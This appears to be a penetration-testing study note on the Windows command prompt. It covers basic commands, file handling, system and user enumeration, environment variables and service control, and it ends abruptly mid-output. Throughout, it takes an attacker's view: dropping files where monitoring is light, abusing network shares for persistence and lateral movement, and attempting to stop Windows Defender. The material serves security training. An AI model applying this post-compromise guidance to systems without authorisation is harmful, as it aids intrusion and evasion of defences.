

# Windows Command Line

|PowerShell | Command Prompt|
|--- |---|
|Introduced in 2006 | Introduced in 1981|
|Can run both batch commands and PowerShell cmdlets | Can only run batch commands|
|Supports the use of command aliases | Does not support command aliases|
|Cmdlet output can be passed to other cmdlets | Command output cannot be passed to other commands|
|All output is in the form of an object | Output of commands is text|
|Able to execute a sequence of cmdlets in a script | A command must finish before the next command can run|
|Has an Integrated Scripting Environment (ISE) | Does not have an ISE|
|Can access programming libraries because it is built on the .NET framework | Cannot access these libraries|
|Can be run on Linux systems | Can only be run on Windows systems |

you can run `powershell` commands with `powershell <cmd>` in `cmd`.

# CMD
## Command prompt Basics

How to access it:
#### Locally
- Windows key + `r`, then type `cmd`
- accessing directly `C:\Windows\System32\cmd.exe`

#### Remote Access
- `telnet` (insecure and not recommended)
- `SSH`
- `PsExec`
- `WinRM`
- `RDP`
- ...
  
### Basic Usage

`dir`:
```cmd
C:\Users\htb\Desktop> dir
  
 Volume in drive C has no label.
 Volume Serial Number is DAE9-5896

 Directory of C:\Users\htb\Desktop

06/11/2021  11:59 PM    <DIR>          .
06/11/2021  11:59 PM    <DIR>          ..
06/11/2021  11:57 PM                 0 file1.txt
06/11/2021  11:57 PM                 0 file2.txt
06/11/2021  11:57 PM                 0 file3.txt
04/13/2021  11:24 AM             2,391 Microsoft Teams.lnk
06/11/2021  11:57 PM                 0 super-secret-sauce.txt
06/11/2021  11:59 PM                 0 write-secrets.ps1
               6 File(s)          2,391 bytes
               2 Dir(s)  35,102,117,888 bytes free
```

`help`:
```
C:\htb> help

For more information on a specific command, type HELP command-name
ASSOC          Displays or modifies file extension associations.
ATTRIB         Displays or changes file attributes.
BREAK          Sets or clears extended CTRL+C checking.
BCDEDIT        Sets properties in boot database to control boot loading.
CACLS          Displays or modifies access control lists (ACLs) of files.
CALL           Calls one batch program from another.
CD             Displays the name of or changes the current directory.
CHCP           Displays or sets the active code page number.
CHDIR          Displays the name of or changes the current directory.
CHKDSK         Checks a disk and displays a status report.

<snip>
```
```
C:\htb> help time

Displays or sets the system time.

TIME [/T | time]

Type TIME with no parameters to display the current time setting and a prompt
for a new one. Press ENTER to keep the same time.

If Command Extensions are enabled, the TIME command supports
the /T switch which tells the command to just output the
current time, without prompting for a new time.
```
Commands might not support the `help` utility. you can try `<command> /?`.
Other options include [Microsoft documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands) and [ss64](https://ss64.com/nt/).


`cls` to clear screen. 

History commands:
|Key/Command | Description|
|-- | -- |
|doskey /history | doskey /history will print the session's command history to the terminal or output it to a file when specified.|
|page up | Places the first command in our session history to the prompt.|
|page down | Places the last command in history to the prompt.|
|⇧ | Allows us to scroll up through our command history to view previously run commands.|
|⇩ | Allows us to scroll down to our most recent commands run.|
|⇨ | Types the previous command to prompt one character at a time.|
|⇦ | N/A|
|F3 | Will retype the entire previous entry to our prompt.|
|F5 | Pressing F5 multiple times will allow you to cycle through previous commands.|
|F7 | Opens an interactive list of previous commands.|
|F9 | Enters a command to our prompt based on the number specified. The number corresponds to the commands place in our history.|

`Ctrl + C` to interrupt command.

### System Navigation

- `cd` and `chdir` work like the linux `cd` command.
- `tree` command:
  - ```
    C:\htb\student\> tree

    Folder PATH listing
    Volume serial number is 26E7-9EE4
    C:.
    ├───3D Objects
    ├───Contacts
    ├───Desktop
    ├───Documents
    ├───Downloads
    ├───Favorites
    │   └───Links
    ├───Links
    ├───Music
    ├───OneDrive
    ├───Pictures
    │   ├───Camera Roll
    │   └───Saved Pictures
    ├───Saved Games
    ├───Searches
    └───Videos
        └───Captures
    ```
  - use `tree /F` to list files as well.

#### Interesting directories
|Name: | Location: | Description:|
| --- | --- | --- |
|%SYSTEMROOT%\Temp | C:\Windows\Temp | Global directory containing temporary system files accessible to all users on the system. All users, regardless of authority, are provided full read, write, and execute permissions in this directory. Useful for dropping files as a low-privilege user on the system.|
|%TEMP% | C:\Users\<user>\AppData\Local\Temp | Local directory containing a user's temporary files accessible only to the user account that it is attached to. Provides full ownership to the user that owns this folder. Useful when the attacker gains control of a local/domain joined user account.|
|%PUBLIC% | C:\Users\Public | Publicly accessible directory allowing any interactive logon account full access to read, write, modify, execute, etc., files and subfolders within the directory. Alternative to the global Windows Temp Directory as it's less likely to be monitored for suspicious activity.|
|%ProgramFiles% | C:\Program Files | folder containing all 64-bit applications installed on the system. Useful for seeing what kind of applications are installed on the target system.|
|%ProgramFiles(x86)% | C:\Program Files (x86) | Folder containing all 32-bit applications installed on the system. Useful for seeing what kind of applications are installed on the target system.|

### Working with Directories and Files

- `dir /s <drive:>\<pattern>` to search for files/directories
- `md` or `mkdir` to create a new directory
- `rd` or `rmdir` to delete an empty directory
  - `rd /S` to allow prompt to delete non-empty directory
- `move <src> <dst>` to move directory
- `xcopy <scr> <dst> <opts>` to copy a file, **removes the read-only bit** [deprecated, use `robocopy`]
  - use `/E` options to copy folder and subfolders, including empty folders

#### Robocopy

The heavy-duty rsync-style copying command of windows.

`robocopy C:\source D:\destination`

If given `SeBackupPrivilege` and `SeRestorePrivilege` we can use the `/B` option to copy any file in backup mode and have full rights over them.

Robocopy can also work with system, read-only, and hidden files. As a user, this can be problematic if we do not have the `SeBackupPrivilege` and auditing privilege attributes.  This could stop us from duplicating or moving files and directories. There is a bit of a workaround, however. We can utilize the `/MIR` switch to permit ourselves to copy the files we need temporarily.

When permission are unsufficient, utilizing the `/MIR` switch will complete the task for us. Be aware that it will mark the files as a system backup and hide them from view. We can clear the additional attributes if we add the `/A-:SH` switch to our command. Be careful of the `/MIR` switch, as it will mirror the destination directory to the source (aka delete existing destination files).

### Files

#### Viewing file content

- `more` -> `less` command in linux
  - Go up and down with `enter` or `space bar`
  - `/S` to crunch blank space
  - Pipe output to `more`: eg. `ipconfig /all | more`

- `type` to simple print a file to the screen
  - Doesn't lock file
  - `type example-1.txt >> example-2.txt`, same as linux

#### Creating and modifying files

With `echo`
```cmd
C:\Users\htb\Desktop>echo Check out this text > demo.txt

C:\Users\htb\Desktop>type demo.txt
Check out this text

C:\Users\htb\Desktop>echo More text for our demo file >> demo.txt

C:\Users\htb\Desktop>type demo.txt
Check out this text
More text for our demo file
```

with `fsutil`:
```cmd
C:\Users\htb\Desktop>fsutil file createNew for-sure.txt 222
File C:\Users\htb\Desktop\for-sure.txt is created

C:\Users\htb\Desktop>echo " my super cool text file from fsutil "> for-sure.txt

C:\Users\htb\Desktop>type for-sure.txt
" my super cool text file from fsutil "
```

rename a file with `ren`:
```
ren demo.txt superdemo.txt
```

### Input/Output

We can utilize the <, >, |, and & to send input and output from the console and files to where we need them. With > we can push the output of a command to a file.

Append to a file:
```
C:\Users\htb\Documents> echo a b c d e > test.txt

C:\Users\htb\Documents>type test.txt
a b c d e

C:\Users\htb\Documents>echo f g h i j k see how this works now? >> test.txt

C:\Users\htb\Documents>type test.txt
a b c d e
f g h i j k see how this works now?
```

pass in a file to a command:
```
C:\Users\htb\Documents>find /i "see" < test.txt

f g h i j k see how this works now?
```

pip output between commands:
```
C:\Users\htb\Documents>ipconfig /all | find /i "IPV4"

   IPv4 Address. . . . . . . . . . . : 172.16.146.5(Preferred)
```

Run A then B:
```
C:\Users\htb\Documents>ping 8.8.8.8 & type test.txt

Pinging 8.8.8.8 with 32 bytes of data:
Reply from 8.8.8.8: bytes=32 time=22ms TTL=114
Reply from 8.8.8.8: bytes=32 time=19ms TTL=114
Reply from 8.8.8.8: bytes=32 time=17ms TTL=114
Reply from 8.8.8.8: bytes=32 time=16ms TTL=114

Ping statistics for 8.8.8.8:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 16ms, Maximum = 22ms, Average = 18ms
a b c d e
f g h i j k see how this works now?
```
Run A then B, only if A succeeds:
```
C:\Users\student\Documents>cd C:\Users\student\Documents\Backup && echo 'did this work' > yes.txt

C:\Users\student\Documents\Backup>type yes.txt
'did this work'
```

#### Deleting files

Use `del` or `erase`:
```
del <file>
erase <file>
```

use `del /A` to delete based on attributes (also works for listing with `dir`):
```
  /A            Selects files to delete based on attributes
  attributes    R  Read-only files            S  System files
                H  Hidden files               A  Files ready for archiving
                I  Not content indexed Files  L  Reparse Points
                O  Offline files              -  Prefix meaning not
```

Use `/F` to force deletion without confirmation prompt.

#### Copying and moving files

- `copy` -> cp in linux
- `move` -> mv in linux

## Gathering System Information



|Type | Description |
|-----|-------------|
|General System Information | Contains information about the overall target system. Target system information includes but is not limited to the `hostname` of the machine, OS-specific details (`name`, `version`, `configuration`, etc.), and installed hotfixes/patches for the system.|
|Networking Information | Contains networking and connection information for the target system and system(s) to which the target is connected over the network. Examples of networking information include but are not limited to the following: `host IP address`, `available network interfaces`, `accessible subnets`, `DNS server(s)`, `known hosts`, and `network resources`.|
|Basic Domain Information | Contains Active Directory information regarding the domain to which the target system is connected.|
|User Information | Contains information regarding local users and groups on the target system. This can typically be expanded to contain anything accessible to these accounts, such as `environment variables`, `currently running tasks`, `scheduled tasks`, and `known services`.

To keep ourselves on target during enumeration, we want to try and ask ourselves some of the following questions:

- What system information can we pull from our target host?
- What other system(s) is our target host interacting with over the network?
- What user account(s) do we have access to, and what information is accessible from the account(s)?

Say we want to see if we can escalate our priviledge. To do this, we are going to need a thorough understanding of our environment, including the following:

- What user account do we have access to?
- What groups does our user belong to?
- What current working set of privileges does our user have access to?
- What resources can our user access over the network?
- What tasks and services are running under our user account?

Remember that this only partially encompasses all the questions we can ask ourselves to reach our intended goal but simply a tiny subset of possibilities. Without thinking things through and failing to follow any guided structure while performing enumeration, we will struggle to know if we have all the required information to reach our goal. It can be easy to write off a system as being completely patched and not vulnerable to any current `CVEs` or the latest `vulnerabilities`. However, if you only focus on that aspect, it is easy to miss out on the many `human configuration errors` that could exist in the environment. This very reason is why taking our time and gathering all of the information we can on a system or environment should be prioritized in terms of importance over simply exploiting a system haphazardly.

We can then check this information on for example [Exploit DB](https://www.exploit-db.com/).

### How do we get this Information ?

```PowerShell
C:\htb> systeminfo


Host Name:                 DESKTOP-htb
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.19042 N/A Build 19042
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free

<snipped>
```

```cmd
C:\htb> hostname

DESKTOP-htb
```

```cmd
C:\htb> ver

Microsoft Windows [Version 10.0.19042.2006]
```

```cmd
C:\htb> ipconfig # or ipconfig /all for more information like MAC addresses, DHCP settings, and DNS Server.

Windows IP Configuration

<SNIP>

Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : htb.local
   Link-local IPv6 Address . . . . . : fe80::2958:39a:df51:b60%23
   IPv4 Address. . . . . . . . . . . : 10.0.25.17
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.0.25.1

Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . : internal.htb.local
   Link-local IPv6 Address . . . . . : fe80::bc3b:6f9f:68d4:3ec5%26
   IPv4 Address. . . . . . . . . . . : 172.16.50.15
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.50.1

<SNIP>
```

```cmd
C:\htb> arp /a

<SNIP>

Interface: 10.0.25.17 --- 0x17
  Internet Address      Physical Address      Type
  10.0.25.1             00-e0-67-15-cf-43     dynamic
  10.0.25.5             54-9f-35-1c-3a-e2     dynamic
  10.0.25.10            00-0c-29-62-09-81     dynamic
  10.0.25.255           ff-ff-ff-ff-ff-ff     static
  224.0.0.22            01-00-5e-00-00-16     static
  224.0.0.251           01-00-5e-00-00-fb     static
  224.0.0.252           01-00-5e-00-00-fc     static
  239.255.255.250       01-00-5e-7f-ff-fa     static
  255.255.255.255       ff-ff-ff-ff-ff-ff     static

Interface: 172.16.50.15 --- 0x1a
  Internet Address      Physical Address      Type
  172.16.50.1           15-c0-6b-58-70-ed     dynamic
  172.16.50.20          80-e5-53-3c-72-30     dynamic
  172.16.50.32          fb-90-01-5c-1f-88     dynamic
  172.16.50.65          7a-49-56-10-3b-76     dynamic
  172.16.50.255         ff-ff-ff-ff-ff-ff     static
  224.0.0.22            01-00-5e-00-00-16     static
  224.0.0.251           01-00-5e-00-00-fb     static
  224.0.0.252           01-00-5e-00-00-fc     static
  239.255.255.250       01-00-5e-7f-ff-fa     static\

<SNIP>
```

```
C:\htb> whoami

ACADEMY-WIN11\htb-student
```

```
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

```
C:\htb> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Performance Log Users          Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```

To list all users on a host:
```
C:\htb> net user

User accounts for \\ACADEMY-WIN11

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
htb-student              WDAGUtilityAccount
The command completed successfully.
```

List all groups or local groups:
```
C:\htb> net group
net group
This command can be used only on a Windows Domain Controller.

More help is available by typing NET HELPMSG 3515.


C:\htb>net localgroup

Aliases for \\ACADEMY-WIN11

-------------------------------------------------------------------------------
*__vmware__
*Access Control Assistance Operators
*Administrators
*Backup Operators
*Cryptographic Operators
*Device Owners
*Distributed COM Users
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Power Users
*Remote Desktop Users
*Remote Management Users
*Replicator
*System Managed Accounts Group
*Users
The command completed successfully.
```

In a domain environment, users are typically required to store any work-related material on a share located on the network versus storing files locally on their machine. These shares are usually found on a server away from the physical access of a run-of-the-mill employee. Typically, standard users will have the necessary permissions to read, write, and execute files from a share, provided they have valid credentials. We can, of course, abuse this as an additional persistence method.
```
C:\htb> net share  

Share name   Resource                        Remark

-------------------------------------------------------------------------------
C$           C:\                             Default share
IPC$                                         Remote IPC
ADMIN$       C:\Windows                      Remote Admin
Records      D:\Important-Files              Mounted share for records storage  
The command completed successfully.
```
Ideally, if we were to find an open share like this while on an engagement, we would need to keep track of the following:

- Do we have the proper permissions to access this share?
- Can we read, write, and execute files on the share?
- Is there any valuable data on the share?
In addition to providing information, shares are great for hosting anything we need and laterally moving across hosts as a pentester.

[Net View](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh875576(v=ws.11)) also will display to us any shared resources the host you are issuing the command against knows of. This includes domain resources, shares, printers, and more.

This is just a quick look at how `CMD` can be used to gain access and continue an assessment with limited resources. Keep in mind that this route is quite noisy, and we will be noticed eventually by even a semi-competent blue team. As it stands, we are writing tons of logs, leaving traces across multiple hosts, and have little to no insight into what their `EDR` and `NIDS` was able to see.

Note: In a standard environment, cmd-prompt usage is not a common thing for a regular user. Administrators sometimes have a reason to use it but will be actively suspicious of any average user executing cmd.exe. With that in mind, using `net *` commands within an environment is not a normal thing either, and can be one way to alert on potential infiltration of a networked host easily. With proper monitoring and logging enabled, we should spot these actions quickly and use them to triage an incident before it gets too far out of hand.

## Finding Files and Directories

```PowerShell
C:\Users\student\Desktop>where calc.exe

C:\Windows\System32\calc.exe

# "where" only looks in our environment path variable
C:\Users\student\Desktop>where bio.txt

INFO: Could not find files for the given pattern(s).

# We need to give our path to look through with /R
C:\Users\student\Desktop>where /R C:\Users\student\ bio.txt

C:\Users\student\Downloads\bio.txt

# Wildcards
C:\Users\student\Desktop>where /R C:\Users\student\ *.csv

C:\Users\student\AppData\Local\live-hosts.csv

# find command, kind of like grep in linux
C:\Users\student\Desktop> find "password" "C:\Users\student\not-passwords.txt" 

# find with option: /V for any line with NOT the pattern, /I to ignore case sensitivity, and /N to display line numbers
C:\Users\student\Desktop> find /N /I /V "IP Address" example.txt

# closer to grep, the findstr command with more complex regex management
C:\Users\student\Desktop> findstr
```

### Evaluating and sorting files

```powershell
# comp command, kind of like diff in linux, /A to have ascii output, /L for line numbers
PS C:\htb> echo a > .\file-1.md
PS C:\Users\MTanaka\Desktop> echo a > .\file-2.md

PS C:\Users\MTanaka\Desktop> comp .\file-1.md .\file-2.md /A
Comparing .\file-1.md and .\file-2.md...
Files compare OK
<SNIP>

PS C:\Users\MTanaka\Desktop> echo b > .\file-2.md

PS C:\Users\MTanaka\Desktop> comp .\file-1.md .\file-2.md /A
Comparing .\file-1.md and .\file-2.md...
Compare error at OFFSET 2
file1 = a
file2 = b  
```

```Powershell
# fc command, more powerful that comp
C:\Users\student\Desktop> fc passwords.txt modded.txt /N

Comparing files passwords.txt and MODDED.TXT
***** passwords.txt
    1:  123456
    2:  password
***** MODDED.TXT
    1:  123456
    2:
    3:  password
*****

***** passwords.txt
    5:  12345
    6:  qwerty
***** MODDED.TXT
    6:  12345
    7:  Just something extra to show functionality. Did it see the space inserted above?
    8:  qwerty
*****
```

## Environment variables

Windows, like any other program, contains its own set of variables known as `Environment Variables`. These variables can be separated into their defined scopes known as `System` and `User` scopes. Additionally, there is one more defined scope known as the `Process` scope; however, it is volatile by nature and is considered to be a sub-scope of both the `System` and `User` scopes. Keeping this in mind, let's explore their differences and intended functionalities.

|Scope | Description | Permissions Required to Access | Registry Location|
|------|-------------|--------------------------------|------------------|
|System (Machine) | The System scope contains environment variables defined by the Operating System (OS) and are accessible globally by all users and accounts that log on to the system. The OS requires these variables to function properly and are loaded upon runtime. | Local Administrator or Domain Administrator | HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment|
|User | The User scope contains environment variables defined by the currently active user and are only accessible to them, not other users who can log on to the same system. | Current Active User, Local Administrator, or Domain Administrator | HKEY_CURRENT_USER\Environment|
|Process | The Process scope contains environment variables that are defined and accessible in the context of the currently running process. Due to their transient nature, their lifetime only lasts for the currently running process in which they were initially defined. They also inherit variables from the System/User Scopes and the parent process that spawns it (only if it is a child process).|
|

#### Using Set and Echo to View Variables


```
C:\Users\htb\Desktop>set %SYSTEMROOT%

Environment variable C:\Windows not defined
```
We see that in this case, it mentions the value itself is not defined; however, this is because we are not defining the value of %SYSTEMROOT% using set in this example.

```
C:\Users\htb\>echo %PATH%

C:\Users\htb\Desktop
```
Unlike the previous command, echo is used to print the value contained within the variable and has no additional built-in features to edit environment variables. 


### Managing environment variables
#### When to Use set Vs. setx

Both [set](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/set_1) and [setx](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/setx) are command line utilities that allow us to display, set, and remove environment variables. The difference lies in how they achieve those goals. The set utility only manipulates environment variables in the current command line session. This means that once we close our current session, any additions, removals, or changes will not be reflected the next time we open a command prompt. Suppose we need to make permanent changes to environment variables. In that case, we can use setx to make the appropriate changes to the registry, which will exist upon restart of our current command prompt session.

Note: Using setx, we also have some additional functionality added in, such as being able to create and tweak variables across computers in the domain as well as our local machine.

`set` and `setx` are have relatively similar syntaxes but `setx` offer more options.

#### Creating variables

Let us go ahead and create a variable to hold the value of the IP address of the Domain Controller (`DC`) since we might find it useful for testing connectivity to the domain or querying for updates. We can do this using the `set` command.

```PowerShell
C:\htb> set DCIP=172.16.5.2

C:\htb> echo %DCIP%

172.16.5.2
```

As we can see, the environment variable %DCIP% is now set and available for us to access. As stated above, this change is considered part of the `process` scope, as whenever we exit the command prompt and start a new session, this variable will cease to exist on the system. We can remedy this situation by permanently setting this variable in the environment using `setx`.

```
C:\htb> setx DCIP 172.16.5.2

SUCCESS: Specified value was saved.
```

Editing variables:
```
C:\htb> setx DCIP 172.16.5.5

SUCCESS: Specified value was saved.

C:\htb> echo %DCIP%

172.16.5.5
```

Deleting a variable:
```
C:\htb> setx DCIP ""

SUCCESS: Specified value was saved.

C:\htb> set DCIP
Environment variable DCIP not defined

C:\htb> echo %DCIP%
%DCIP%
```

### Important Environment Variables

|Variable Name | Description|
|--------------|------------|
|%PATH% | Specifies a set of directories(locations) where executable programs are located.|
|%OS% | The current operating system on the user's workstation.|
|%SYSTEMROOT% | Expands to C:\Windows. A system-defined read-only variable containing the Windows system folder. Anything Windows considers important to its core functionality is found here, including important data, core system binaries, and configuration files.|
|%LOGONSERVER% | Provides us with the login server for the currently active user followed by the machine's hostname. We can use this information to know if a machine is joined to a domain or workgroup.|
|%USERPROFILE% | Provides us with the location of the currently active user's home directory. Expands to C:\Users\{username}.|
|%ProgramFiles% | Equivalent of C:\Program Files. This location is where all the programs are installed on an x64 based system.|
|%ProgramFiles(x86)% | Equivalent of C:\Program Files (x86). This location is where all 32-bit programs running under WOW64 are installed. Note that this variable is only accessible on a 64-bit host. It can be used to indicate what kind of host we are interacting with. (x86 vs. x64 architecture)

And a [complete list](https://ss64.com/nt/syntax-variables.html) of variables.

## Managing Services

Let's look at this from the perspective of an attacker. We have just landed on a victims host and need to:

- Determine what services are running.
- Attempt to disable antivirus.
- Modify existing services on a system.

### Service controller

[SC](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754599(v=ws.11)) is a Windows executable utility that allows us to query, modify, and manage host services locally and over the network. For most of this section, we will utilize `SC` as our defacto way to handle services. We have other tools, like Windows Management Instrumentation (`WMIC`) and `Tasklist` that can also query and manage services for local and remote hosts.

```
C:\htb> sc  

DESCRIPTION:
        SC is a command line program used for communicating with the
        Service Control Manager and services.
USAGE:
        sc <server> [command] [service name] <option1> <option2>...


        The option <server> has the form "\\ServerName"
        Further help on commands can be obtained by typing: "sc [command]"
        Commands:
          query-----------Queries the status for a service, or
                          enumerates the status for types of services.
          queryex---------Queries the extended status for a service, or
                          enumerates the status for types of services.
          start-----------Starts a service.
          pause-----------Sends a PAUSE control request to a service.

<SNIP>  

SYNTAX EXAMPLES
sc query                - Enumerates status for active services & drivers
sc query eventlog       - Displays status for the eventlog service
sc queryex eventlog     - Displays extended status for the eventlog service
sc query type= driver   - Enumerates only active drivers
sc query type= service  - Enumerates only Win32 services
sc query state= all     - Enumerates all services & drivers
sc query bufsize= 50    - Enumerates with a 50 byte buffer
sc query ri= 14         - Enumerates with resume index = 14
sc queryex group= ""    - Enumerates active services not in a group
sc query type= interact - Enumerates all interactive services
sc query type= driver group= NDIS     - Enumerates all NDIS drivers
```

#### Query All Active Services

```cmd
C:\htb> sc query type= service

SERVICE_NAME: Appinfo
DISPLAY_NAME: Application Information
        TYPE               : 30  WIN32
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

SERVICE_NAME: AppXSvc
DISPLAY_NAME: AppX Deployment Service (AppXSVC)
        TYPE               : 30  WIN32
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

SERVICE_NAME: AudioEndpointBuilder
DISPLAY_NAME: Windows Audio Endpoint Builder
        TYPE               : 30  WIN32
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
<SNIP>
```

We can see a complete list of the actively running services on this system. Using this information, we can thoroughly scope out what is running on the system and look for anything that we wish to disable or in some cases, services that we can attempt to take over for our own purposes, whether it be for escalation or persistence.

Returning to our scenario, we recently landed on a host and need to `query` the host and determine if Windows Defender is active. Let's give `sc` query a try.

```cmd
C:\htb> sc query windefend    

SERVICE_NAME: windefend
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (NOT_STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Now, what do we see above? We can tell that Windows Defender is running and, with our current permission set (the one in which we utilized for the query), does not have permission to stop or pause the service (likely because our user is a standard user and not an administrator). We can test this by trying to stop the service.

#### Stopping an Elevated Service as Standard User
```
C:\htb> sc stop windefend

Access is denied.  
```

#### Stopping an Elevated Service as Administrator
```
C:\WINDOWS\system32> sc stop windefend

Access is denied.
```

It seems we still do not have the proper access to stop this service in particular. This is a good lesson for us to learn, as certain processes are protected under stricter access requirements than what local administrator accounts have. In this scenario, the only thing that can stop and start the Defender service is the [SYSTEM](https://learn.microsoft.com/en-us/windows/security/identity-protection/access-control/local-accounts#default-local-system-accounts) machine account.

As an attacker, learning the restrictions behind what certain accounts have access or lack of access to is very important because blindly trying to stop services will fill the logs with errors and trigger any alerts showing that a user with insufficient privileges is trying to access a protected process on the system. This will catch the blue team's attention to our activities and begin a triage attempt to kick us off the system and lock us out permanently.

#### Stopping Services
Moving on, let's find ourselves a service we can take out as an Administrator. The good news is that we can stop the Print Spooler service. Let's try to do so.

```
C:\WINDOWS\system32> sc query Spooler

SERVICE_NAME: Spooler
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0


C:\WINDOWS\system32> sc stop Spooler

SERVICE_NAME: Spooler
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x3
        WAIT_HINT          : 0x4e20


C:\WINDOWS\system32> sc query Spooler

SERVICE_NAME: Spooler
